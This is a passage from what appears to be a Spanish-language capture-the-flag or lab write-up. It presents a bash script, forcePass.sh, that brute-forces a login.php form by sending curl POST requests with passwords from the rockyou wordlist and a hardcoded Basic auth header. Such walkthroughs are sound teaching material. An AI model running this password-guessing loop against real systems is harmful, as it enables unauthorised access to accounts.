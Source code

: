 <figure><img src="../../.gitbook/assets/Captura de pantalla 2025-07-12 095627.png" alt=""><figcaption></figcaption></figure>

Entrando en el mismo veremos otro `login` el cual vamos a realizar un poco de `fuzzing` e intentar realizar un poco de `fuerza bruta`.

Vamos a crearnos un script en `bash` para automatizar el ataque de esta forma:

> forcePass.sh

```bash
#!/bin/bash

URL="http://<IP>/login.php"
USER="admin"
WORDLIST="/usr/share/wordlists/rockyou.txt"
AUTH_HEADER="Authorization: Basic aHR0cGFkbWluOmZodHRwYWRtaW4="
FAIL_STRING="Credenciales incorrectas."

while read -r PASS; do
    echo "[*] Probando contraseña: $PASS"
    RESPONSE=$(curl -s -X POST "$URL" \
      -H "$AUTH_HEADER" \
      -d "username=$USER&password=$PASS")

    if [[ "$RESPONSE" != *"$FAIL_STRING"* ]]; then
        echo "[+] ¡Contraseña encontrada!: $PASS"
        exit 0
    fi
done < "$WORDLIST"

echo "[-] No se encontró la contraseña correcta en el wordlist."
```